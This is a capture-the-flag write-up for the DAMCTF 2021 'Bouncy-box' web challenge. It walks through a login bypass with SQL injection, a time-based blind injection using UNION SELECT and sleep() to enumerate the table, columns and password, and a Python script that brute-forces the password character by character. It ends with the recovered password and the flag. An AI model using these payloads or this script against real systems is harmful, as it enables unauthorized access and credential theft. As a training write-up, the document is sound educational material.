 ```yaml
---
layout: post
title:  "[DAMCTF] Bouncy-box"
date:   "2021-11-07"
categories: Web
author: voidPtr
login1_img: /assets/posts_images/Bouncy box/login.PNG
scoreboard_img: /assets/posts_images/Bouncy box/scoreboard.PNG
login2_img: /assets/posts_images/Bouncy box/login2.PNG
---
```


The website show us a simple minigame. Whenever we lose, we can login and save our score, but there is no registration.
<figure>
<img src="{{ page.login1_img }}" alt="login1">
</figure>

In order to see the users already registered, we can access at the scoreboard. As we can see, there are two special users that have the VIP status.

<figure>
<img src="{{ page.scoreboard_img }}" alt="scoreboard">
</figure>

Personally I focused on boxy_mcbounce, but the two users should be equally good to get the flag.  
To bypass the first login, we can use a simple SQL injection, for example:
```
username: boxy_mcbounce
password: a' OR 1=1; -- 
```
An important thing to notice while attempting this login is that whenever we fail, we get an error displayed below the login. It could be an html error, or an "invalid cretential" message, or directly a 500 from the browser.  
Instead when we succesfully login, we get a "Logging you in" caption and we are redirected to a profile page. We will use this in a while.  

In this page, there is a "Free flag" button, but if we click it we are prompted with a new login. This time it is not vulnerable to SQL injection (for what I've tested)
<figure>
<img src="{{ page.login2_img }}" alt="login2">
</figure>

So my idea was to exploit the first login and attempt a blind SQL injection error-based to get the real password of the user boxy_mcbounce.  

First I tested for the environment, using some built-in functions, and discovered that they used MySQL:
```
boxy_mcbounce' AND conv('a',16,2)=conv('a',16,2);-- 
```

From now on, to retrieve the remaining needed information I used the sleep() function in my queries, in order to have an additional feedback to know if my queries returned something (if the elapsed time was above 5 seconds) or not.  

In order to get some responses, I first needed to know the exact number of columns retrieved by the original query. I used this query, incrementing the number until there was an error, and found out it was 5:
```
boxy_mcbounce' ORDER BY 2;-- 
```

Then I searched for the name of the table. My guess was obviously something like "users". Anyway I tested for it and discovered I was right. To get the exact value, we need to test for each character, so from now on I will use also the substr() function to guess one character at a time.
```
boxy_mcbounce' UNION SELECT 1,2,3,4,sleep(5) from information_schema.tables where substr(table_name, 2, 1) = 's';-- 
```

Now we need the name of the columns, but only of the ones we need, username and password. My guess was again something obvious like "username" and "password". Right again =)  
```
boxy_mcbounce' UNION SELECT 1,2,3,column_name,sleep(5) from information_schema.columns where table_name='users' and column_name LIKE 'user%' AND substr(column_name, 5, 1) = 'n'; -- 
```
This time the above query it's a bit different. There were collisions on the names of other columns and i got too much positive responses that were confusing me. So to be sure I was testing the character of the right column, I added the LIKE clause.  

Now comes the fun part. We know the table name and the name of the columns we need. Time to bruteforce.  

I wrote a python script to get the real password value of the user boxy_mcbounce. I noticed that special characters like "_" were breaking the server in most cases, and causing a delay of more than 20-30 seconds. So I decided to test only for alphanumeric characters. Here's the script.  
```python
import requests
import string

TARGET_URL = 'https://bouncy-box.chals.damctf.xyz'

possibleChars = string.ascii_letters + string.digits

result = ""

for pwLenght in range(20):
    print("ACTUAL PASSWORD: " + result)
    for c in possibleChars:
        query = "boxy_mcbounce' UNION SELECT 1,2,username,password,sleep(10) from users where username='boxy_mcbounce' and substr(password, "+str(pwLenght)+", 1) = '"+c+"'; -- "
        r = requests.post(TARGET_URL+'/login', json={
            "username" : "boxy_mcbounce",
            "password" : query,
            "score": 666
        })
        time = int(r.elapsed.total_seconds())
        if(time > 8):
            result += c
            break
        print(r.status_code)
        
print("FINAL PASSWORD: " + result)
```

The script output was "b0uncybounc3".  

We just need to put the real credentials in the second login and get the flag.
```
dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}
```

